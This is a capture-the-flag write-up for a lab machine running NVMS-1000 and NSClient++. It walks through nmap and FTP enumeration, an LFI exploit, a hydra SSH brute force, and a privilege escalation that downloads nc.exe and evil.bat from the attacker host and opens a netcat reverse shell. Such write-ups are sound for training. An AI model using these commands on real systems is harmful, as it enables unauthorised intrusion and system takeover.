

## nmap
nmap -sC -sV 10.10.10.184
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 15:04 EDT                                                                                                                                                    
Nmap scan report for 10.10.10.184                                                                                                                                                                                  
Host is up (0.60s latency).                                                                                                                                                                                        
Not shown: 991 closed ports                                                                                                                                                                                        
PORT     STATE SERVICE       VERSION                                                                                                                                                                               
21/tcp   open  ftp           Microsoft ftpd                                                                                                                                                                        
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                                             
|_01-18-20  12:05PM       <DIR>          Users                                                                                                                                                                     
| ftp-syst:                                                                                                                                                                                                        
|_  SYST: Windows_NT                                                                                                                                                                                               
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)                                                                                                                                                
| ssh-hostkey:                                                                                                                                                                                                     
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)                                                                                                                                                     
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)                                                                                                                                                    
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)                                                                                                                                                  
80/tcp   open  http                                                                                                                                                                                                
| fingerprint-strings:                                                                                                                                                                                             
|   GetRequest, HTTPOptions, RTSPRequest:                                                                                                                                                                          
|     HTTP/1.1 200 OK                                                                                                                                                                                              
|     Content-type: text/html                                                                                                                                                                                      
|     Content-Length: 340                                                                                                                                                                                          
|     Connection: close                                                                                                                                                                                            
|     AuthInfo:                                                                                                                                                                                                    
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">                                                                                    
|     <html xmlns="http://www.w3.org/1999/xhtml">                                                                                                                                                                  
|     <head>                                                                                                                                                                                                       
|     <title></title>                                                                                                                                                                                              
|     <script type="text/javascript">                                                                                                                                                                              
|     window.location.href = "Pages/login.htm";                                                                                                                                                                    
|     </script>                                                                                                                                                                                                    
|     </head>                                                                                                                                                                                                      
|     <body>                                                                                                                                                                                                       
|     </body>                                                                                                                                                                                                      
|     </html>                                                                                                                                                                                                      
|   NULL:                                                                                                                                                                                                          
|     HTTP/1.1 408 Request Timeout                                                                                                                                                                                 
|     Content-type: text/html                                                                                                                                                                                      
|     Content-Length: 0                                                                                                                                                                                            
|     Connection: close                                                                                                                                                                                            
|_    AuthInfo:                                                                                                                                                                                                    
|_http-title: Site doesn't have a title (text/html).                                                                                                                                                               
135/tcp  open  msrpc         Microsoft Windows RPC                                                                                                                                                                 
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                                                         
445/tcp  open  microsoft-ds?                                                                                                                                                                                       
5666/tcp open  tcpwrapped                                                                                                                                                                                          
6699/tcp open  napster?                                                                                                                                                                                            
8443/tcp open  ssl/https-alt                                                                                                                                                                                       
| fingerprint-strings:                                                                                                                                                                                             
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions:                                                                                                                                                       
|     HTTP/1.1 404                                                                                                                                                                                                 
|     Content-Length: 18
|     Document not found                                                                                                                                                                                           
|   GetRequest:                                                                                                                                                                                                    
|     HTTP/1.1 302                                                                                                                                                                                                 
|     Content-Length: 0                                                                                                                                                                                            
|     Location: /index.html                                                                                                                                                                                        
|     workers                                                                                                                                                                                                      
|_    jobs                                                                                                                                                                                                         
| http-title: NSClient++                                                                                                                                                                                           
|_Requested resource was /index.html                                                                                                                                                                               
| ssl-cert: Subject: commonName=localhost                                                                                                                                                                          
| Not valid before: 2020-01-14T13:24:20                                                                                                                                                                            
|_Not valid after:  2021-01-13T13:24:20                                                                                                                                                                            
|_ssl-date: TLS randomness does not represent time
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=4/11%Time=5E9214D5%P=x86_64-pc-linux-gnu%r(NULL
SF:,6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/ht
SF:ml\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n
SF:\r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20tex
SF:t/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x
SF:20\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20X
SF:HTML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/D
SF:TD/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.
SF:org/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\
SF:x20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x2
SF:0\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")
SF:%r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/htm
SF:l\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\
SF:n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\
SF:x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xh
SF:tml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1
SF:999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x
SF:20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20
SF:\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(RT
SF:SPRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\n
SF:Content-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n
SF:\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\
SF:.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-
SF:transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/x
SF:html\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x2
SF:0<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\
SF:x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.80%T=SSL%I=7%D=4/11%Time=5E9214E0%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocation
SF::\x20/index\.html\r\n\r\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\x12\x02\x18\0\x1aC\n\x07workers\x12\n\n\x04jobs\x12\x02\x1
SF:8\$\x12\x0f")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x20
SF:18\r\n\r\nDocument\x20not\x20found")%r(FourOhFourRequest,36,"HTTP/1\.1\
SF:x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(RTS
SF:PRequest,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\
SF:x20not\x20found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\
SF:x2018\r\n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 45s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-11T19:07:54
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.36 seconds
```

## FTP
anonymous ftp login is allowed so we can either use "ftp 10.10.10.184" with username "anonymous" to see the files  
or just visit "ftp://10.10.10.184" in a browser







from Nadine's note we know that there is a Passwords.txt file on Nathan's Desktop i.e. C:\Users\Nathan\Desktop\Passwords.txt exists

## https
the https website has title "NSClient++" and it does not look very useful   



## http
we get a login page with title "NVMS-1000"



## searchsploit
searching for NVMS on searchsploit gives a LFI exploit  





## hydra
we can try to ssh using these passwords so i used hydra to bruteforce     



## User Shell
we can now SSH as nadine using this password --> "L1k3B1gBut7s@W0rk"  



# PrivEsc
## WinPEAS
i used wget in powershell to download winPEAS.bat file  



we can run winPEAS.bat file using the following command in powershell
```
cmd /c winPEAS.bat
```

the only useful info that winPEAS gave was about the installed softwares  
we have NSClient++ installed which is running as the https web service we saw earlier  



## NSClient++
i used searchsploit for NSClient++ and found a privEsc exploit  



the exploit is divided into these 7 steps  



### step 1
i got the web admin's password from NSClient.ini file --> "ew2x6SsGTxjRwXOT"  



### step 2
this box is very unstable, visiting the https site gave a login prompt for NSClient++ this time



the website loaded properly in Microsoft Edge, so I did some part of the privEsc on my Windows host machine   
submitting the password gave a **403 not allowed** error  



this is probably because only localhost is allowed to login, so we need to access the webpage from ServMon's localhost   
to do this we need to create a tunnel to forward the port 8443 from localhost of ServMon to some port on our machine   
to create a tunnel, we can use **chisel** but in this case as we have SSH creds, it is easier to use SSH port forwarding  
```
ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184
```

now we can access the website on our machine on `https://127.0.0.1:8443/` and we don't get 403 not allowed error   

### step 3
put the netcat reverse shell command in evil.bat and wget evil.bat and nc.exe from my machine to ServMon   
the nc.exe file is in `/usr/share/windows-resources/binaries/` directory   

commands to run on kali
```
cp /usr/share/windows-resources/binaries/nc.exe .
sudo python3 -m http.server 80
```

commands to run on ServMon in powershell
```
wget -o evil.bat 10.10.14.169/evil.bat
wget -o nc.exe 10.10.14.169/nc.exe
```



### step 4
I setup the netcat listener in my Windows host rather than Kali so I had to user **ncat** instead of nc
```
ncat -lvp 4433
```

### step 5



### step 6
rather than setting up a scheduler for the command, I ran it directly from the **Queries** tab  



step 7 (restarting the machine) is not required

